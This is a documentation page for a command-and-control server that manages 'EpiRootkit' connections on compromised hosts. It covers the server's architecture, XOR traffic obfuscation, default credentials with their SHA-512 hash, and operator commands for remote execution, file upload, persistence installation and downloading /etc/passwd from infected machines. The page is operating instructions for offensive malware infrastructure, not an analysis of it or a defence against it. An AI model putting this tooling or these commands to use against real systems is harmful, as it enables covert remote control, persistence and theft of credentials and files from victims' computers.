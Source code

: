 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 301
---
```


# C2 Server Overview

Command & Control server for managing EpiRootkit connections.

## Quick Start

```bash
cd attacking_program
pnpm install
pnpm start
```

**Ports:**
- C2 Server: `4444`
- Web Interface: `3000`

## Architecture

- **CLI Interface**: Interactive command system
- **C2 Server**: TCP server for rootkit connections
- **Web Interface**: REST API with Socket.IO
- **Client Manager**: Connection lifecycle and authentication
- **Event System**: Real-time logging

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm
- **CLI**: Vorpal.js for commands
- **Web**: Express.js + Socket.IO
- **Encryption**: XOR cipher with 32-byte hardcoded key

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth Client-1 password      # Authenticate with client
status Client-1             # Get rootkit status
keepalive Client-1          # Check connection health
```

### Remote Operations
```bash
exec Client-1 whoami                       # Execute commands
upload Client-1 ./file.txt /tmp/file.txt   # Upload files
download Client-1 /etc/passwd ./passwd     # Download files
```

### Configuration
```bash
config Client-1             # Interactive configuration
persist Client-1 install    # Manage persistence
```

## Authentication

### SHA-512 Password System
1. C2 sends plaintext password
2. Rootkit hashes and compares
3. Session established (1-hour timeout)
4. Rate limiting: 5 attempts/60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Environment Settings
```bash
C2_PORT=4444               # C2 server port
WEB_PORT=3000              # Web interface port
ENCRYPTION_KEY=secret32hex  # 32-character hex key
ENABLE_ENCRYPTION=true     # XOR encryption toggle
PASSWORD_HASH=hash         # SHA-512 password hash
```

## Security Features

- **Authentication**: SHA-512 with brute force protection
- **XOR Encryption**: 32-byte key cipher for traffic obfuscation
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Health Monitoring**: Automatic stale client detection

## Network Protocol

### Command Format
```json
{
  "type": "command",
  "command": "exec",
  "data": "whoami"
}
```

### Response Format
```json
{
  "type": "response", 
  "success": true,
  "data": "root"
}
```